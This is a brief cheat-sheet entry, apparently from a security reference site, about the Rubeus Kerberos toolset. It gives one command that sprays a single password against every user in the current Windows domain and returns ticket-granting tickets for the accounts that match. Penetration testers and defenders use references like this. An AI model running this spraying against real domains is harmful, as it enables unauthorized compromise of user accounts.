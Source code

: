 ```yaml
---
title: RUBEUS
summary: "A C# toolset for raw Kerberos interaction and abuses."
description: "A C# toolset for raw Kerberos interaction and abuses."
---
```


**[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)**

# RUBEUS Password Spraying


 > 
 > **<font color=red>Rubeus.exe brute /password:</font>myPassword <font color=red>/noticket</font>**</br>
 > Spray a password against all users in current domain and return the .kirbi TGT of users that use this password.

